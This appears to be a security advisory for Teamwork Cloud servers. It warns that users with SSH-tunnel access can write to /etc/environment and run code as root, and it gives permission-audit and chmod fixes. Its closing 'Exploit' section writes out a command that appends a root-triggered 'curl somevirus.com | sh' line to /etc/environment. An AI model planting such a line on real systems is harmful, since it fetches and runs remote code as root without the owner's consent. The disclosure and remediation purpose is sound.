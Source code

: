 Inspect the contents of /etc/environment for malicious shell code.

If your Teamwork Cloud server requires an SSH tunnel to access, then your system may be using native authentication. This is alternative to LDAP authentication for Teamwork Cloud.

- IF the customer is allowing users to sign into their teamwork cloud server using SSH tunnel
e.g.
ssh -L localport:teamworkserver:teamworkserverport username@teamworkserver

** ANY sub-user who can SSH tunnel into your Teamwork Cloud instance may also be permitted to read & write to /etc/environment, allowing execution of arbitrary code on the TWC server, as root, effectively violating any security and permission controls whatsoever.

Secondly, veryify the contents of /home/twcloud, recursively:

```bash
# as root
find -type f /home/twcloud 2>/dev/null | xargs -i ls -lha "{}" | grep rwxrwxrwx 2>/dev/null
```

If you see any output from the above command, then the files inside the twcloud user, who runs the Teamwork Cloud server process, is affected.

```bash
# as root or twcloud
find /home/twcloud -type d -exec chmod 0755 {} \;
find /home/twcloud -type f -exec chmod 0644 {} \;
```
The above command will change the permissions of all folders to 755, and all files to 644 that are within the twcloud user home directory.

## Exploit

```bash
# as a subuser
tee -a /etc/environment <<'EOF'
[[ "$(whoami)" = root ]] && nohup bash -c "curl somevirus.com | sh" &
EOF

```
In above example, when root logs into the system, or the system is rebooted, the session will cause arbitrary code to be download from somevirus dot com, and subsequently execute that code in a background process.
